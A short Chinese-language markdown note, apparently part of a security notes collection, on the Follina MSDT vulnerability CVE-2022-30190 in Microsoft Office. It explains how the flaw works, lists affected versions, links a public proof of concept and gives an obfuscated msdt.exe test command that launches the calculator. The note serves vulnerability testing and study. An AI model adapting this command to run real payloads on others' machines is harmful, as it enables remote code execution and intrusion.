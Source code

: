 ### Office套件CVE

#### CVE-2022-30190

-Microsoft MSDT CVE-2022-30190 代码执行

https://github.com/JohnHammond/msdt-follina

该漏洞首次发现在2022年5月27日，由白俄罗斯的一个IP地址上传。恶意文档从Word远程模板功能从远程Web服务器检索HTML文件，

通过ms-msdt MSProtocol URI方法来执行恶意PowerShell代码。感染过程利用程序msdt.exe，该程序用于运行各种疑难解答程序包。

此工具的恶意文档无需用户交互即可调用它。导致在宏被禁用的情况下，恶意文档依旧可以使用ms-msdt URI执行任意PowerShell代码。

目前已知影响的版本为：

office 2021 Lts、office 2019、office 2016、Office 2013、Office ProPlus、Office 365

##### 测试：

```
msdt.exe /id PCWDiagnostic /skip force /param "IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'Unicode.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'YwBhAGwAYwA='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe"
```

<img src=".\图片\Snipaste_2023-01-05_11-22-55.png" alt="Snipaste_2023-01-05_11-22-55" style="zoom: 50%;" />

弹出计算器便可能存在漏洞
